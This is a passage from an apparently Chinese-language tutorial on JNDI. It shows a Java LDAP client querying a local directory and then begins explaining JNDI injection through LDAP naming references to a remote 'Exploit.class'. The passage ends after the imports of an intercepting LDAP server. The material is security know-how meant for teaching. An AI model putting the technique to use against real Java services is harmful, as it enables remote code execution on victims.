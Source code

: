     ```java
    package com.example.demo.jndi;

    import javax.naming.Context;
    import javax.naming.NamingEnumeration;
    import javax.naming.NamingException;
    import javax.naming.directory.DirContext;
    import javax.naming.directory.InitialDirContext;
    import javax.naming.directory.SearchControls;
    import javax.naming.directory.SearchResult;
    import java.util.Hashtable;

    public class JNDIClient {
        public static void main(String[] args) throws NamingException {
            Hashtable<String, Object> env = new Hashtable<>();
            env.put(Context.INITIAL_CONTEXT_FACTORY, "com.sun.jndi.ldap.LdapCtxFactory");
            env.put(Context.PROVIDER_URL, "ldap://localhost:7389/dc=example,dc=com");

            DirContext ctx = new InitialDirContext(env);
            SearchControls searchControls = new SearchControls();
            searchControls.setSearchScope(SearchControls.SUBTREE_SCOPE);
            searchControls.setCountLimit(10);
            NamingEnumeration<SearchResult> namingEnumeration = ctx.search("", "(uid=*)", new Object[]{}, searchControls);
            // 通过名称查找远程对象，假设远程服务器已经将一个远程对象绑定了
            ctx.lookup("ldap://localhost:7389/ou=employees,dc=example,dc=com");
            while (namingEnumeration.hasMore()){
                SearchResult sr = namingEnumeration.next();
                System.out.println("DN: " + sr.getName());
                System.out.println(sr.getAttributes().get("uid"));
            }
            ctx.close();

        }
    }
    ```
3. 运行，查看访问结果
    ```cmd
    DN: uid=xxxx,ou=employees
    uid: xxxx
    ```

## 什么是 JNDI 注入？

### JNDI Naming Reference

1. 在 LDAP 里面可以存储一个外部资源，叫做命名引用，对应 `Reference` 类。（比如： 远程 HTTP 服务的一个 `Exploit.class` 文件）
    ```java
    package com.example.demo.ldap;

    import com.unboundid.ldap.listener.InMemoryDirectoryServer;
    import com.unboundid.ldap.listener.InMemoryDirectoryServerConfig;
    import com.unboundid.ldap.listener.InMemoryListenerConfig;
    import com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult;
    import com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor;
    import com.unboundid.ldap.sdk.Entry;
    import com.unboundid.ldap.sdk.LDAPException;
    import com.unboundid.ldap.sdk.LDAPResult;
    import com.unboundid.ldap.sdk.ResultCode;
